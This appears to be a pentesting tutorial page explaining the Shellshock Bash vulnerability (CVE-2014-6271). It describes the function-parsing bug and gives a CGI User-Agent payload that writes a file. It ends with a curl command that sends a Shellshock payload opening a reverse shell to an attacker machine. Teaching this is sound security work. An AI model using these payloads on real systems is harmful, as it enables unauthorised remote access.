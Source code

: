 ```yaml
---
description: >-
  Known as the “Bash Bug” or “ShellShock,” the GNU Bash Remote Code Execution
  Vulnerability (CVE-2014-6271) could allow an attacker to gain control over a
  targeted computer if exploited successfully.
---
```


# Shellshock

{% embed url="https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability" %}

Shellshock - [CVE-2014-6271](http://www.cvedetails.com/cve/cve-2014-6271) and [CVE-2014-6278](http://www.cvedetails.com/cve/cve-2014-6278) - was a serious vulnerability found in the Bash command shell, which is commonly used in Linux distributions. The vulnerability allowed attackers to run arbitrary commands on an affected system. The most commonly affected webs server where the ones using the [CGI Environment](http://www.cgi101.com/book/ch3/text.html).

In general - Bash allows the exporting of shell function to other bash instances on the server. It is done by creating an environmental variable with the function definition as such…

```text
env ENV_VAR_FN=’() { <your function> };’
```

The **ENV\_VAR\_FN** is the function that is executed in the bash instance. Unfortunately, there was a bug in the implementation of this to where the function continued to read and execute beyond the function definition - allowing to run additional code. Technically it should have stopped reading past the function definition, marked with a `;`.

```text
env ENV_VAR_FN=’() { <your function> }; <attacker code here>’
```

Many services were affected by this bug. Any web server that consumed user input and added the input to the bash environment, was vulnerable. A possible exploit in the CGI Environment would look like this.

```text
GET /<server path> HTTP/1.1

User-agent: () { :;}; echo something>/var/www/html/new_file
```

This command would create a file called **new\_file**, which an attacker could use to their advantage. So, since we now know that **cgi-bin/status** is exploitable, and we know “how” to exploit it, let go ahead and do so!

We will be leveraging the [cURL](https://curl.haxx.se/docs/manpage.html) command for this vulnerability. This way we can send edited User-Agent header information that will be accepted by the CGI’s Bash environment.

```text
# Nikto give us 
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).

# Shellshock exploit using curl
root@kali:~# curl -x http://192.168.1.9:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.1.7/1234 0>&1" http://192.168.1.9/cgi-bin/status
```

